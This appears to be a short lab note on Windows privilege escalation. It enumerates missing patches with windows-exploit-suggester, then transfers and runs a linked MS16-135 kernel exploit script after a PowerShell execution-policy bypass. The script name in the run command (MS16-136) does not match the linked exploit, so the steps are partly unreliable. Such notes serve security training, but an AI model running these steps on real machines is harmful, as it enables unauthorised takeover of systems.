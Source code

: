- Get `systeminfo`from the windows machine and transfer the output to a file on Kali. `sysinfo.txt`
- Download `windows-exploit-suggester.py`

# Enumeration
---
- Initialize db using:
	- `python2 windows-exploit-suggester.py --update `
- Install dependensies:
	- `python2 pip install xlrd==1.2.0`
- Run suggester:
	- `python2 windows-exploit-suggester.py -i sysinfo.txt -d 2025-04-18-mssb.xls`

# Exploitation
---
![[Pasted image 20250418170250.png]]
- Found exploit script: https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/MS16-135.ps1
- Transfer and run the script:
	- `powershell.exe -ep bypass`
	- `. .\MS16-136.ps1`
- ![[Pasted image 20250418170422.png]]